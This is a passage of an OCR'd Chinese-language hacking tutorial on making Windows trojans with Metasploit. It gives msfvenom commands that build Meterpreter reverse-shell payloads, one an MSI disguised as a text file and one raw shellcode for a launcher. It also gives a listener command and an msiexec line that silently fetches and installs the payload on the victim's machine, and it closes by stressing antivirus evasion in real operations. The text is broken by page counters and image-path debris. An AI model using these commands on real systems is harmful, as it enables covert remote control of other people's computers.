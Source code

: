 39/70



生成之后在msfconsole里使用:

```
handler -H 192.168.1.144 -P 4444 -p windows/meterpreter/reverse_tcp

jobs
可以看见开启监听
```



## msi执行的木马——可以隔空执行的

```
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.1.144 lport=4444 -f msi > haha.txt

然后在被控制电脑里：
msiexec /q /i http://192.168.1.252/haha.txt
```

35/58



## shellcode-launcher

github

```
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.1.144 lport=4444 -f raw -o shell.raw
```

需要执行

24/59



免杀在实战中很重要，不过最好得学会编程，不然没办法自己研发出自己的木马，用人家的东西效果一般不太友好。
